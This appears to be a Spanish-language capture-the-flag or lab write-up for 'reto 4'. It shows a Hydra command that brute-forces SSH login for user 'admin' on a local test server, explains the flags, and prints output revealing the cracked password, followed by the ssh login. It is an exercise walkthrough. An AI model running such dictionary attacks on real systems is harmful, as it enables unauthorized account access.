



# Solucion para el reto 4

## Comando utilizado para la obtencion de la contraseña del usuario admim

```cs
hydra -s 2222 -l admin -P /usr/share/wordlists/rockyou.txt -e nsr -t 8 ssh://127.0.0.1 -v -f
```



- Hydra: Llamamos la herramienta de Hydra.
- -s: Definimos el numero de puerto usado para el ejercicio, ejemplo ==2222==.
- -l: Definimos el nombre del usuario para la conexion, ejemplo ==admin==.
- -P: Definimos el diccionario de contraseñas a usar para el ataque, ==/usr/share/wordlists/rockyou.txt==.
- -e nsr: Definimos como entrada la opcion de una contraseña vacia(n), el nombre de usuario como contraseña(s), el nombre de usuario con las letras invertidas( r ).
- -t: Definimos el numero de tareas en paralelo, ejemplo 8.
- ssh: Definimos el protocolo victima, ejemplo SSH.
- IP: Definimos la IP de la victima, ejemplo ==//127.0.0.1==.
- -v: Activamos el modo Verbose, para ver información detallada del ataque.
- -f: Termina el ataque cuando encuentre una contraseña valida.


## Resultado del comando


```bash
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-02-26 21:04:04
[DATA] max 8 tasks per 1 server, overall 8 tasks, 14344402 login tries (l:1/p:14344402), ~1793051 tries per task
[DATA] attacking ssh://127.0.0.1:2222/
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[INFO] Testing if password authentication is supported by ssh://admin@127.0.0.1:2222
[INFO] Successful, password authentication is supported by ssh://127.0.0.1:2222
[STATUS] 88.00 tries/min, 88 tries in 00:01h, 14344314 to do in 2716:44h, 8 active
[STATUS] 82.67 tries/min, 248 tries in 00:03h, 14344154 to do in 2891:58h, 8 active
[2222][ssh] host: 127.0.0.1   login: admin   password: smokey
[STATUS] attack finished for 127.0.0.1 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-02-26 21:07:50
```


## Conexion con el servicio SSH

Probamos la conectividad con las credenciales obtenidas

```cs
ssh admin@127.0.0.1 -p 2222 
```



